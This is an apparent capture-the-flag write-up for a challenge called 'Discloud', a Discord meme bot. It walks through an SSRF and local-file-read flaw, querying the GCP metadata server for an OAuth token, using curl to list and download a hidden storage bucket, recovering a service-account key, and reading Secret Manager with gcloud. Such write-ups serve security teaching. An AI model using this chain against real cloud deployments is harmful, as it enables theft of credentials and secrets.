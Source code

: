 **video solution:** https://youtu.be/oLn6fnCoZ5k

# Discloud

Messaging the MemeSurfer bot on discord it has three main functions list, get and sign. List gets a list of memes, get retrieves a meme either through a name or signed URL, and sign which will sign a URL of a meme to send to a friend.

### SSRF
The vulnerability in this is that when using the command `!meme get -su <URL>` it will go out and request and url you provide (not just signed) and give you its response (SSRF). Not only this but it is also a LFI with `!meme get -su /etc/passwd`. So with this two pieces of knowledge we want to get the source of the bot's code as well as information about the instance it is running on.

### LFI 
Now knowing this is a node application from the description we can assume there is a `package.json` file so we run `!meme get -su package.json` and we receive the outline of the app. We see that 

```
    "start": "node index.js",
```

Is the main entry point, so we do the same thing and get the `index.js` file and everythhing looks as and we don't gain any extra information except a comment on line 25 and 26 that we know where the memes are stored in a bucket called `epic-meme1` but also there is reference to another bucket name!

```
// const memeBucketName = "secure-epic-meme"
const memeBucketName = "epic-meme1"
```

We save this information for next step

### SSRF MetaData server
All GCP instances are in contact with a mother GCP metadata server that can provide a lot of interesting information but most importantly we can get an Oauth access token of the service account running on the VM. So we can use this exploit to retrive more info. Accessing `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token` (beta url does not require the Metadata header to be set) we get access to a token of the form `ya29.c.KmnWByMsRsglySUJKA2JalS...` we can then make requests on behalf of the service account of the VM. 

### Accessing buckets
Now we know that there is a bucket named `epic-meme1` which contains the memes and if we inspect that we will find just 4 normal memes nothing special. But in the LFI there was reference to a secure meme bucket. Lets see if we can go ahead and list those objects in that bucket using [this](https://cloud.google.com/storage/docs/listing-objects) and our token 


```
curl -X GET -H "Authorization: Bearer ya29.c.KmnWByMsRsgl..." \
  "https://storage.googleapis.com/storage/v1/b/secure-epic-meme/o"

<snip>
        selfLink": "https://www.googleapis.com/storage/v1/b/secure-epic-meme/o/epic.jpg",
      "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/secure-epic-meme/o/epic.jpg?generation=1596196069167950&alt=media",
      "name": "epic.jpg",
      "bucket": "secure-epic-meme",
</snip>
```

and bingo we get an object listing with an object called `epic.jpg` so lets pull that and see what it contains

```
curl -X GET -H "Authorization: Bearer $OAUTH2_TOKEN" https://storage.googleapis.com/download/storage/v1/b/secure-epic-meme/o/epic.jpg?generation=1596196069167950&alt=media 
```                             
 And we get a big base64 output:
 ```
 ewogICJ0eXBlIjo.....
 ```

 Lets unbase64 this and see what it is 
 
 ```
 {
  "type": "service_account",
  "project_id": "discloud-meme",
  "private_key_id": "1186bb89be47d7cc8c28abfc2090bd18bb1c5f77",
  "private_key": "<snip></snip>",
  "client_email": "secret-manager@discloud-meme.iam.gserviceaccount.com",
  "client_id": "109460679507899502660",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/secret-manager%40discloud-meme.iam.gserviceaccount.com"
}
```

Nice so we found some account key credentials for the secret-manager service account, this sounds like it is getting closer to the secrets the challeneg was talking about. Saving this key to a file called secret.json. Now we can use it to login to the gcloud command line.

```
gcloud auth activate-service-account --key-file /path/to/secret.json
```

Great now once we are logged in lets find out what secrets the challenge is talking about when googlging `gcp secrets` [this link](https://cloud.google.com/solutions/secrets-management) should come up about secret manager. 

Lets see if we can try and list the secrets with `gcloud secrets list`
```
NAME        CREATED              REPLICATION_POLICY  LOCATIONS
big_secret  2020-07-31T11:51:46  automatic           -
```

Fantastic, looks like there is a secret called `big_secret` now lets try and access it again referecing the API
```
gcloud secrets versions access latest --secret big_secret
```

and out pops the flag!



## Flag:

```
DUCTF{bot_boi_2_cloud_secrets}
```
